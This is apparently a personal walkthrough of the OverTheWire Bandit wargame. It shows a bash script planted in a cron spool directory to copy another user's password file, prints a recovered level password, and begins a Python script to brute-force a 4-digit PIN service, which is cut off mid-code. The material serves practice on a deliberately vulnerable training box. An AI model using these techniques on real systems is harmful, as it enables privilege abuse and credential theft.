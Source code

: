 This is saying:
1. myname = bandit24
2. cd /var/spool/bandit24
3. For files in *.*:
a. If file i is NOT equal to .

So it executes bandit23 code!

Write code as follows:

bandit23@bandit:/tmp/hello$ cat script.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 >> /tmp/hello/bandit24password

Then:
chmod 777 script.sh
cp script.sh /var/spool/bandit24

This SHOULD work, but for some reason it didn't. I found that the previous method (MD5) works the same for this level!


bandit23@bandit:/tmp/hello$ cat /tmp/ee4ee1703b083edac9f8183e4ae70293
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

ssh bandit24@localhost
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

Done!

---

Bandit Level 24 → Level 25
Level Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
---

bandit24@bandit:/tmp/1$ cat bruteforce.py
#!/usr/bin/env python3
# coding: utf-8

import sys
import socket

pincode = 0
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

try:
    # Connect to server
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 30002))
